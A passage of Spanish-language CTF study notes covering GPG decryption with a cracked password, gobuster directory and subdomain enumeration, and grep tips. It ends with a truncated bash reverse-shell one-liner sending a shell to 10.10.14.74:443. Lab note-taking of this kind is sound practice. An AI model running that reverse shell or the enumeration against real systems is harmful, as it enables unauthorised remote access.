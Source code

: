 ```bash
gpg --decrypt algo.pgp
```
y poner la contraseña crackeada 
http://irtfweb.ifa.hawaii.edu/~lockhart/gpg/ 

### Gobuster 
Para fuzzear virtualhosts o directiorios
```bash
gobuster vhost -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://jeff.thm/ -t 20
gobuster dns -d http://mydomain.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt 
gobuster dir -w lista.txt -u http://ruta -t 20 -x <extensiones>
```

### grep 
filtra y revisa el contenido de los archivos 

```bash
grep '\=$' #sirve para encontrar base64 dentro de archivos en CTFs 
grep -E '(192.168.0.30|192.168.0.40)' #busca ambas ip simultaneamente 
grep -w -i "^r....$" /usr/share/wordlists/rockyou.txt #palabras de 5 letras que comiencen con r 
grep -oP '".*?"'  #muestra el contenido de las comillas dobles 
grep -io "[0-9]\{1,2\}"  #busca números de uno o dos dígitos que contengan del 0 al 9. 
grep 'c:\\users\\' #para evitar el backslash trailing. Es necesario usar comilla simple y doble backslash. 
```

### Flags 

```bash
-R Does a recursive grep search for the files inside the folders(if found in the specified path for pattern search; else grep won't traverse diretory for searching the pattern you specify) 
-h If you're grepping recursively in a directory, this flag disables the prefixing of filenames in the results. 
-c This flag won't list you the pattern only list an integer value, that how many times the pattern was found in the file/folder. 
-i I prefer to use this flag most of the time, this is what specifies grep to search for the PATTERN while IGNORING the case  
-l will only list the filename instead of pattern found in it. 
-n It will list the lines with their line number in the file containing the pattern. 
-v This flag prints all the lines that are NOT containing the pattern 
-E This flag we already read above... will consider the PATTERN as a regular expression to find the matching strings.  
-e The official documentation says, it can be used to specify multiple patterns and if any string matches with the pattern(s) it will list it. 
```
Desde <https://tryhackme.com/room/linuxmodules>  

 

 

### Harness
FrameWork para creacion de payload. 
Ejemplo: 
```bash
/bin/bash -c "bash -i >& /dev/tcp/10.10.14.74/443 0>& 
```
